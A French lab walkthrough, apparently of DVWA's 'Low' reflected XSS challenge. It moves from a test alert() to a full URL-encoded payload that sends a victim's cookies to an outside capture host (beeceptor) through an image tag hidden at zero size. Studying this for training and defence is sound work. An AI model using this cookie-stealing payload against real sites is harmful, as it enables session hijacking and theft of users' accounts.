






# Niveau "Low"

Sur ce challenge, un simple formulaire permettant de saisir son nom :



Le paramètre **`GET`** nommé `name` est simplement réfléchi sur la page :



Tentons une simple `alert()` box  :



Il ne reste plus qu'a forger un lien exécutant un script envoyant les cookies de la victime sur un serveur malicieux :

```javascript
<script>document.write('')</script>
```



L'URL complète à soumettre à la victime est :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E
```

L'exécution de la payload sera invisible pour la victime \(concernant l'icone de l'image, il suffira de renseigner une taille à 0\) :



Côté attaquant, nous recevons la valeur des cookies lors du chargement de l'image \(par notre victime\) :




J'utilise ici le service [beeceptor.com](https://beeceptor.com/) mais il est bien sur possible d'utiliser son propre serveur malicieux à partir du moment qu'il est possible d visualiser les requêtes effectuées


